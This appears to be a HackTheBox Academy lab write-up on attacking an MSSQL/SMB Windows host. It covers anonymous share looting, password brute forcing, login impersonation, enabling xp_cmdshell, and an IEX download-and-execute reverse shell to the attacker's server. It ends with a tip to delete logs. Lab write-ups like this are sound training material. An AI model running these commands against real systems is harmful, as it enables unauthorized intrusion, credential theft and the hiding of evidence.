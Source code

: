 ```yaml
---
title: "HTB Academy | Attacking Common Services Lab 3"
description: "This is a hard lab writeup from the htb module attacking common services"
pubDate: "Nov 18 2024"
heroImage: "https://academy.hackthebox.com/storage/modules/116/logo.png?t=1730242916"
badge: "Hard"
tags: ["Exploitation","Sql","MSSQL","Bruteforcing","Windows","Smb","Privesc","Reverse Shell"]
---
```



- 1. Nmap Scanning TCP OPEN Ports:

```sh
sudo nmap -sS --open --min-rate 5000 -p- -Pn -n -vvv 10.129.134.163 -oG allPorts
```

```sh
PORT     STATE SERVICE       REASON
135/tcp  open  msrpc         syn-ack ttl 127
445/tcp  open  microsoft-ds  syn-ack ttl 127
1433/tcp open  ms-sql-s      syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127
```

- 1.2 Nmap basic scripts an service scanning:

```sh
nmap -sCV -p 135,445,1433,3389 10.129.134.163 -oN target
```

```python
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.134.163:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.134.163:1433: 
|     Target_Name: WIN-HARD
|     NetBIOS_Domain_Name: WIN-HARD
|     NetBIOS_Computer_Name: WIN-HARD
|     DNS_Domain_Name: WIN-HARD
|     DNS_Computer_Name: WIN-HARD
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-11-17T06:52:40
|_Not valid after:  2054-11-17T06:52:40
|_ssl-date: 2024-11-17T06:57:07+00:00; -1s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2024-11-16T06:52:28
|_Not valid after:  2025-05-18T06:52:28
| rdp-ntlm-info: 
|   Target_Name: WIN-HARD
|   NetBIOS_Domain_Name: WIN-HARD
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD
|   Product_Version: 10.0.17763
|_  System_Time: 2024-11-17T06:56:26+00:00
|_ssl-date: 2024-11-17T06:57:06+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-11-17T06:56:30
|_  start_date: N/A
```

------------------------------------------


- 2. Listing available smb folders:

```ruby
❯ smbclient -N -L //10.129.134.163/

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Home            Disk      
	IPC$            IPC       Remote IPC
```


- 2.2 Download home directory:

```ruby
❯ smbclient  //10.129.134.163/home -U "" -Tc target.tar.gz
Password for [WORKGROUP\]:  # ==> Press enter
tar: dumped 5 files and 0 directories
Total bytes written: 576 (0,0 MiB/s)
```

- 2.3 Decompress the file and Search:

```python
❯ 7z x target.tar.gz

❯ tree
   -  .
   - ├──  HR
   - ├──  IT
   - │   ├──  Fiona
 118 │   │   └──  creds.txt
   - │   ├──  John
 101 │   │   ├──  information.txt
 164 │   │   ├──  notes.txt
  99 │   │   └──  secrets.txt
   - │   └──  Simon
  94 │       └──  random.txt
   - ├──  OPS
   - ├──  Projects
```


- 2.4 Create a dictionary with the credentials in the files:

```bash
❯ cat passwords
───────┬────────────────────────────────────
       │ File: passwords
───────┼────────────────────────────────────
   1   │ kAkd03SA@#!
   2   │ 48Ns72!bns74@S84NNNSl
   3   │ SecurePassword!
   4   │ Password123!
   5   │ SecureLocationforPasswordsd123!!
   6   │ 1234567
   7   │ (DK02ka-dsaldS
   8   │ Inlanefreight2022
   9   │ Inlanefreight2022!
  10   │ TestingDB123
  11   │ (k20ASD10934kadA
  12   │ KDIlalsa9020$
  13   │ JT9ads02lasSA@
  14   │ Kaksd032klasdA#
  15   │ LKads9kasd0-@
───────┴────────────────────────────────────
```

- 2.5. Brute force with crackmapexec:

```ruby
❯ crackmapexec smb 10.129.134.163 -u fiona -p passwords
SMB         10.129.134.163  445    WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.134.163  445    WIN-HARD         [-] WIN-HARD\fiona:kAkd03SA@#! STATUS_LOGON_FAILURE 
SMB         10.129.134.163  445    WIN-HARD         [+] WIN-HARD\fiona:48Ns72!bns74@S84NNNSl # ==> pass
```

------------------

- 3.1 Connection to mssql with windows authentication:

```sh
impacket-mssqlclient -p 1433 fiona@10.129.134.163 -windows-auth   
```


- 3.2 Checking remote and vinculate servers:

```sql
SQL (WIN-HARD\Fiona  guest@master)> select srvname, isremote from sysservers
srvname                 isremote   
---------------------   --------   
WINSRV02\SQLEXPRESS            1   

LOCAL.TEST.LINKED.SRV          0   
```

- 3.3 Checking if we have permissions to connect as user "fiona":

```sql
SQL (WIN-HARD\Fiona  guest@master)> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'NT AUTHORITY\ANONYMOUS LOGON'.
```

- 3.4 Searching for other users in the system database:

```
SQL (WIN-HARD\Fiona  guest@master)>  SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
name    
-----   
john    

simon   

```

- 3.5 changing to user john and checking if we have permissions on LOCAL.TEST.LINKED.SRV:

```sql
SQL (WIN-HARD\Fiona  guest@master)> execute as login = 'john'
SQL (john  guest@master)> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
                
-   -   -   -   
1   1   1   1   

```

- 3.6 We have permissions as sysadmin, so let's make some configurations to execute commands in the machine:


```sql
SQL (john  guest@master)> execute('sp_configure "show advanced options",1') at [LOCAL.TEST.LINKED.SRV]
INFO(WIN-HARD\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (john  guest@master)> execute('reconfigure') at [LOCAL.TEST.LINKED.SRV]

SQL (john  guest@master)> execute('sp_configure "xp_cmdshell",1') at [LOCAL.TEST.LINKED.SRV]
INFO(WIN-HARD\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (john  guest@master)> execute('reconfigure') at [LOCAL.TEST.LINKED.SRV]
SQL (john  guest@master)> execute('xp_cmdshell "whoami"') at [LOCAL.TEST.LINKED.SRV]
output                
-------------------   
nt authority\system   
```


- 4 Using ConPtyShell from antoniococo [Github](https://github.com/antonioCoco/ConPtyShell):

```sh
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 
```

- 4.1 In the script at last line, you can put this code and set the configuration of your machine and listeting port. Rows and columns is the size of your terminal, in my case is 48 and 162, you can use ("stty size") in your terminal to see yours.

```powershell
Invoke-ConPtyShell -RemoteIp <yourIp> -RemotePort 666 -Rows 48 -Cols 162
```


- 4.1 Preparing the Web server and listening with netcat:

```sh
python3 -m http.server 80
```

```sh
nc -nlvp 666
```

![Texto alternativo](/Pasted%20image%2020241118004402.png)

4.2 Getting and executing the script from our machine:

```sql
SQL (john  guest@master)> execute('xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString(''http://<yourIP>/PS.ps1'')" ') at [LOCAL.TEST.LINKED.SRV]
```


4.3 Searching the flag:

```powershell
PS C:\> cd C:\Users\Administrator\Desktop\
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                                                             
----                -------------         ------ ----                                                                                                             
-a----        4/21/2022   4:07 PM             27 flag.txt                                                                                                         


PS C:\Users\Administrator\Desktop> type .\flag.txt 
HTB{46u$!n9_l!nk3d_$3rv3r$}
PS C:\Users\Administrator\Desktop>  
```

- 4.4 You can get the flag and remember to delete all the logs :D
